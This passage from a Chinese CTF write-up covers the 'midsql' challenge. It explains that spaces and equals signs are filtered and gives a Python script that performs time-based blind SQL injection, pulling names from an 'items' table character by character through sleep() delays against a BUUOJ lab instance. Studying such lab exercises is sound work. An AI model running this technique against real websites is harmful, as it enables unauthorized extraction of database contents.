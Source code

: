 ![](./images/1698205610-image.png)

吐槽一下，真的没必要整的这么麻烦。。。。

### midsql

![](./images/1698228942-image.png)

页面上给了部分源码，这里不是字符型注入，可以直接写

然后遇到空格、等号会被检测然后无回显，下面也不会回显结果

这道题只能使用时间盲注了

python脚本👇

```
import string

import  requests
import time
url='http://40430852-6cf8-4fa9-9a96-cf0c1b027f30.node4.buuoj.cn:81/?id='
res=''
for i in range(24,100):
    for j in range(44,127):
        payload=f'1/**/and/**/if(aSCii(Substr((select/**/group_concat(name)/**/from/**/' \
                f'items),{i},1))>{j},sleep(0.5),sleep(0.01))'
        t1=time.time()
        r=requests.get(url=url+payload)
        t2=time.time()
        print(j,res)
        if t2-t1 <0.5:
            res+=chr(j)
            print(res)
            break

```
